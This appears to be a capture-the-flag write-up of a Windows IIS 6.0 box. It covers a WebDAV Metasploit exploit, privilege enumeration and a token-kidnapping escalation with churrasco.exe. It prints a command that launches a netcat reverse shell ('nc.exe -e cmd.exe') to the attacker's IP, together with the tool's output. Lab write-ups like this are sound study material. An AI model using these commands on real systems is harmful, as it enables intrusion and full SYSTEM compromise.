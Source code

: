 Box: Windows
Level: Easy
### Index
1. Initial Access using iis_webdav_scstoragepathfromurl - msfconsole 
2. Failed attempt of [SeImpersonate Privilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)
3. Failed attempt of multiple MS Missing Patches exploits

Nmap reveals the following result
```
$ nmap -T4 --min-rate=1000 -p- -sC -sV -Pn 10.10.10.14
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Tue, 06 Aug 2024 15:55:20 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Trying the iis_webdav_scstoragepathfromurl from msfconsole gets the "nt authority\network service" shell but no access to user flag.
```
Just setup the RHOST and LHOST and run the exploit. 
```

winPEAS.bat reveals the following results. 
```
PRIVILEGES INFORMATION                
----------------------                                                                                                                                  Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
**SeImpersonatePrivilege        Impersonate a client after authentication Enabled**
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

Failed attempt of [SeImpersonate Privilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/) at this stage. But there are couple of well-known Windows Privilege Escalation Technique that we can cover for this box. Each one is explain with the reference link below.

Following are the couple of links I would highly advice myself to read again and again

1. [Abusing Token Privileges For Windows Local Privilege Escalation](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
2. [Rotten Potato – Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) 
3. [Hot Potato – Windows Privilege Escalation](https://foxglovesecurity.com/2016/01/16/hot-potato/)
4. [Privilege Escalation (Windows) – churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)
5. [Privilege Escalation (Windows) – JuicyPotato.exe](https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)

Churrasco.exe was ran with the following command when the netcat listener was on.
```
C:\tmp>churrasco.exe -d "C:\tmp\nc.exe -e cmd.exe 10.10.16.5 443"
churrasco.exe -d "C:\tmp\nc.exe -e cmd.exe 10.10.16.5 443"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

The reverse shell was captured with elevated privileges.

For this box, we used Churrasco.exe exploit. The Churrasco.exe exploit take advantage of 'Token Kidnapping Revenge' attack. Here are few of the background theory I have learned.

1. **Impersonation**: It is an ability of a thread to execute using a different security information than the process that owns the thread. Threads Impersonates in order to run the code under different user account, all ACL checks are done against the impersonated users. Impersonation can only be performed by processes with the 'SeImpersonatePrivilege'  aka "Impersonate a client after authentication" privilege. When a thread impersonates, it has an associated impersonation token.
   
2. **Token:** An access token is an object that describes the security context of a process or thread. It includes the identity and privileges of the user account associated with the process or thread. They can be primary or Impersonation tokens. Primary tokens are those that are assigned to processes. Impersonation tokens are those that can be get when impersonation occurs. There are four Impersonation levels. 'SecurityAnonymous', 'SecurityIdentity', 'SecurityImpersonation' and 'SecurityDelegation'. Impersonation takes place mostly during Inter Process Communication (IPC) using Local Procedure Call (LPC).

In the past, Windows Services ran as a Local SYSTEM account. Compromise of service == Full System Compromise. Than Microsoft Introduce NETWORK SERVICES and LOCAL SERVICES account. Hence, Compromise of service != Full System Compromise.


> [!NOTE] Token Kidnapping Patch from Microsoft
>Some Windows services that are impersonate privileged account are protected, they are create with a "special" permission. For Example: Service runs under the NETWORK SERVICE account CAN NOT access the protected service running under the same NETWORK SERVICE account. This protection was introduce as a patch from Microsoft. Before this patch, it was possible to elevate privileges by getting privilege impersonation token from another process running under the same NETWORK SERVICE account.

The following two resources covers the in-depth details.

[Research Paper on Token Kidnapping](https://home.ubalt.edu/abento/453/winsecurity/TokenKidnappingRevenge.pdf)

[Defcon - Token Kidnapping](https://github.com/Re4son/Churrasco/blob/master/DEFCON-18-Cerrudo-Token-Kidnapping-Revenge.pdf)